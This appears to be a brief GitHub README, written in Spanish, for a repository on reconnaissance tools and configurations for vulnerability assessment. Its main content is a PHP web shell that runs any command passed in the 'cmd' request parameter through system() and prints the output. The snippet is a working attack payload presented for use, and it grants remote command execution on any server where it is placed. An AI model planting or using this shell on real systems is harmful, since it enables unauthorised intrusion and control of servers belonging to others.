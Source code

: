 # Recon-
Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades.


```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = $_REQUEST['cmd'];
    system($cmd);
    echo "</pre>";
    die;
}
